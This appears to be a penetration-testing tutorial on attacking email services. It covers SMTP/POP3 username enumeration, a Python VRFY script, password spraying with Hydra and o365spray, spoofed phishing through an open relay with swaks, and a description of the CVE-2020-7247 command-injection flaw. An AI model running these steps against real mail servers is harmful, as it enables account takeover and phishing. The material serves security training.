

# Attacking Email Services

When you press the ```Send``` button in your email application, the program establishes a connection to an SMTP server on the network or Internet. The name SMTP stands for Simple Mail Transfer Protocol, and it is a protocol for delivering emails from clients to servers and from servers to other servers.

When you download emails in your email application, it will connect to a POP3 or IMAP4 server on the Internet, which allows the user to save messages in a server mailbox and download them periodically.



## Enumeration

Email servers are complex and usually require you to enumerate multiple servers, ports, and services. Furthermore, today most companies have their email services in the cloud with services such as Microsoft 365 or G-Suite. Therefore, your approach to attacking the email service depends on the service in use.

You can use the Mail eXchanger (_MX_) DNS record to identify a mail server. The MX record specifies the mail server responsible for accepting email messages on behalf of a domain name. It is possible to configure several MX records, typically pointing to an array of mail servers for load balancing and redundancy.

You can use tools such as ```host``` or ```dig``` and online websites such as [MXToolbox](https://mxtoolbox.com/) to query information about the MX records:

```bash
# host - MX records
d41y@htb[/htb]$ host -t MX hackthebox.eu

hackthebox.eu mail is handled by 1 aspmx.l.google.com.

d41y@htb[/htb]$ host -t MX microsoft.com

microsoft.com mail is handled by 10 microsoft-com.mail.protection.outlook.com.

# dig - MX records
d41y@htb[/htb]$ dig mx plaintext.do | grep "MX" | grep -v ";"

plaintext.do.           7076    IN      MX      50 mx3.zoho.com.
plaintext.do.           7076    IN      MX      10 mx.zoho.com.
plaintext.do.           7076    IN      MX      20 mx2.zoho.com.

d41y@htb[/htb]$ dig mx inlanefreight.com | grep "MX" | grep -v ";"

inlanefreight.com.      300     IN      MX      10 mail1.inlanefreight.com.

# host - A records
d41y@htb[/htb]$ host -t A mail1.inlanefreight.htb.

mail1.inlanefreight.htb has address 10.129.14.128
```

These MX records indicate that the first three mail services are using a cloud services G-Suite, Microsoft 365, and Zoho, and the last one may be a custom mail server hosted by the company.

This information is essential because the enumeration methods may differ from one service to another. For example, most cloud service providers use their mail server implementation and adopt modern authentication, which opens a new and unique attack vectors for each service provider. On the other hand, if the company configures the service, you could uncover bad practices and misconfigurations that allow common attacks on mail server protocols.

You can use Nmap's default script ```-sC``` option to enumerate those ports on the target system:

```bash
d41y@htb[/htb]$ sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-27 17:56 CEST
Nmap scan report for 10.129.14.128
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: mail1.inlanefreight.htb, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
MAC Address: 00:00:00:00:00:00 (VMware)
```

## Misconfigurations

Email services use authentication to allow users to send emails and receive emails. A misconfiguration can happen when the SMTP service allows anonymous authentication or support that can be used to enumerate valid usernames.

### Authentication

The SMTP server has different commands that can be used to enumerate valid usernames ```VRFY```, ```EXPN```, and ```RCPT TO```. If you successfully enumerate valid usernames, you can attempt to password spray, brute-forcing, or guess a valid password.

#### VRFY Command

This command instructs the receiving SMTP server to check the validity of a particular email username. The server will respond, indicating if the user exists or not. This feature can be disabled.

```bash
d41y@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


VRFY root

252 2.0.0 root


VRFY www-data

252 2.0.0 www-data


VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
```

With `nc`:

```bash
kali@kali:~$ nc -nv 192.168.50.8 25
(UNKNOWN) [192.168.50.8] 25 (smtp) open
220 mail ESMTP Postfix (Ubuntu)
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
^C
```

Can also be automated:

```python
#!/usr/bin/python

import socket
import sys

if len(sys.argv) != 3:
        print("Usage: vrfy.py <username> <target_ip>")
        sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the Server
ip = sys.argv[2]
connect = s.connect((ip,25))

# Receive the banner
banner = s.recv(1024)

print(banner)

# VRFY a user
user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
result = s.recv(1024)

print(result)

# Close the socket
s.close()
```

Running it:

```bash
kali@kali:~/Desktop$ python3 smtp.py root 192.168.50.8
b'220 mail ESMTP Postfix (Ubuntu)\r\n'
b'252 2.0.0 root\r\n'


kali@kali:~/Desktop$ python3 smtp.py johndoe 192.168.50.8
b'220 mail ESMTP Postfix (Ubuntu)\r\n'
b'550 5.1.1 <johndoe>: Recipient address rejected: User unknown in local recipient table\r\n'
```

#### EXPN Command

... is similar to ```VRFY```, except that when used with a distribution list, it will list all users on that list. This can be a bigger problem then the ```VRFY``` command since sites often have an alias such as "all".

```bash
d41y@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


EXPN john

250 2.1.0 john@inlanefreight.htb


EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```

#### RCPT TO Command

... identifies the recipient of the email message. This command can be repeated multiple times for a given message to deliver a single message to multiple recipients.

```bash
d41y@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok


RCPT TO:julio

550 5.1.1 julio... User unknown


RCPT TO:kate

550 5.1.1 kate... User unknown


RCPT TO:john

250 2.1.5 john... Recipient ok
```

#### USER Command

You can also use the POP3 protocol to enumerate users depending on the service implementation. For example, you can use the command ```USER``` followed by the username, and if the server responds OK, this means that the user exists on the server.

```bash
d41y@htb[/htb]$ telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio

-ERR


USER john

+OK
```

#### Automation

To automate your enumeration process, you can use a tool named [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum). You can specify the enumeration mode with the argument ```-M``` followed by ```VRFY```, ```EXPN```, ```RCPT```, and the argument ```-U``` with a file containing the list of users you want to enumerate. Depending on the server implementation and enumeration mode, you need to add the domain for the email address with the argument ```-D```. Finally, you specify the target with the argument ```-t```.

```bash
d41y@htb[/htb]$ smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7

Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... userlist.txt
Target count ............. 1
Username count ........... 78
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Thu Apr 21 06:53:07 2022 #########
10.129.203.7: jose@inlanefreight.htb exists
10.129.203.7: pedro@inlanefreight.htb exists
10.129.203.7: kate@inlanefreight.htb exists
######## Scan completed at Thu Apr 21 06:53:18 2022 #########
3 results.

78 queries in 11 seconds (7.1 queries / sec)
```

### Cloud Enumeration

Cloud service providers use their own implementation for email services. Those services commonly have custom features that you can abuse for operation, such as username enumeration.

[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 developed by ZDH. This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in Acknowledgements.

```bash
d41y@htb[/htb]$ python3 o365spray.py --validate --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:46:40

>----------------------------------------<

[2022-04-13 09:46:40,344] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz
```

Now, you can attempt to identify usernames.

```bash
d41y@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
            *** O365 Spray ***             

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > enum           :  True
   > userfile       :  users.txt
   > enum_module    :  office
   > rate           :  10 threads
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:48:03

>----------------------------------------<

[2022-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
[2022-04-13 09:48:08,244] INFO : [VALID] lewen@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : [VALID] juurena@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : 

[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```

### Password Attacks

You can use Hydra to perform a password spray or brute-force against email services such as SMTP, POP3, or IMAP4. First, you need to get a username list and a password list and specify which service you want to attack.

```bash
d41y@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```

If cloud services support SMTP, POP3, IMAP4 protocols, you may be able to attempt to perform password spray using tools like Hydra, but these tools are usually blocked. You can instead try to use custom tools such as O365spray or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta. Keep in mind that these tools need to be up-to-date because if the service provider changes something, the tools may not work anymore. This is a perfect example of why you must understand what your tools are doing and have the know-how to modify them if they do not work properly for some reason.

```bash
d41y@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
```

## Protocol Specific Attacks

An open relay is a SMTP server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are accidently or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.

### Open Relay

From an attacker's standpoint, you can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine you are targeting an enterprise with an open relay mail server, and you identify they use a specific email address to send notifications to their employees. You can send a similar email using the same address and add your phishing link with this information. With the Nmap smtp-open-relay script, you can identify if an SMTP port allows an open relay.

```bash
d41y@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

Next, you can use any mail client to connect to the mail server and send your email.

```bash
d41y@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```

## Latest Vulnerabilities

### CVE-2020-7247

One of the most recent publicly disclosed and dangerous SMTP vuln was discovered in OpenSMTP up to version 6.6.2 service was in 2020. This vuln leads to RCE. It has been exploitable since 2018. This service has been used in many different Linux distributions, such as Debian, Fedora, FreeBSD, and others. The dangerous thing about this vuln is the possibility of executing system commands remotely on the system and that exploiting this vuln does not require authentication.

#### Concept of the Attack

As you already know, with the SMTP service, you can compose emails and send them to desired people. The vuln in this service lies in the program's code, namely the function that records the sender's email address. This offers the possibility of escaping the function using a ```;``` and making the system execute arbitrary shell commands. However, there is a limit of 64 chars, which can be inserted as a command.

You need to initialize a connection with the SMTP service first. This can be automated by a script or entered manually. After the connection is established, an email must composed in which you define the sender, the recipient, and the actual message for the recipient. The desired system comannd is inserted in the sender field connected to the sender address with a ```;```. As soon as you finish writing, the data entered is processed by the OpenSMTPD process.